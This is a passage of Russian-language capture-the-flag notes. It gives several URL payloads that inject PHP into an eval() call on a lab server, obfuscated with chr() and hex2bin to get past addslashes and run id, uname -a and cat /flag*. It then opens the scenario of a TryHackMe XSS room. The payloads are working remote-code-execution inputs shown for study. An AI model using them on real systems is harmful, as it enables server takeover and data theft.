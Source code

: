 После решения проблемы я задался вопросом, есть ли более короткий путь к удаленному выполнению кода без необходимости использования функции eval. Первоначально моя идея состояла в том, чтобы попробовать какой-то шестнадцатеричный ввод, который будет проанализирован как строка, что привело меня к следующим рабочим **нагрузкам обхода ограничений addlashes** :

```
http://167.71.143.20:30143/?format=${system(chr(105).chr(100))} <--- system(id)
```

```
http://167.71.143.20:30143/?format=${system(hex2bin(6964))} <-- system(id)
```

```
http://167.71.143.20:30143/?format=${system(chr(117).chr(110).chr(97).chr(109).chr(101).chr(32).chr(45).chr(97))} <-- uname -a
```

```
http://167.71.143.20:30143/?format=${system(chr(99).chr(97).chr(116).chr(32).chr(47).chr(102).chr(108).chr(97).chr(103).chr(42))} <-- flag
```

![[Pasted image 20230206133641.png]]

**Способ 3**

Самый простой и самый короткий способ:

```
http://167.71.143.20:30143/?format=${print(`id`)}
http://167.71.143.20:30143/?format=${print(`cat /flag*`)}
```

**Заключение**

Существуют различные **способы обойти** фильтр ограничений addlashes(), когда пользовательский ввод предоставляется **php-функции eval()** . Возможна даже более широкая **поверхность атаки** , поскольку **описанный выше обход полезной нагрузки ограничения addlashes** может быть применим к другим типам атак в некоторых конкретных случаях, таких как **SQL Injection** атака .



---

# [[XSS|XSS]] 

## Be Careful with what you Wish on a Christmas Night

**Платформа:** https://tryhackme.com/
**Уровень:** Easy
**Комната**: [Advent of Cyber 2](https://tryhackme.com/room/adventofcyber2)

_В этом году Санта захотел перейти на полностью цифровой формат и изобрел программу «Загадай желание!» система. Это чрезвычайно простое веб-приложение, которое позволит людям анонимно делиться своими желаниями с другими. К сожалению, сразу после хакерской атаки служба безопасности обнаружила, что кто-то взломал приложение «Загадай желание!». Большая часть желаний исчезла, и сайт теперь перенаправляется на вредоносный сайт. Злоумышленник мог притвориться, что отправил желание, и отправить на сервер вредоносный запрос! Команда безопасности подключила для вас резервный сервер на_ `_MACHINE_IP:5000_`_. Ваша цель — найти способ, которым злоумышленник мог воспользоваться приложением._
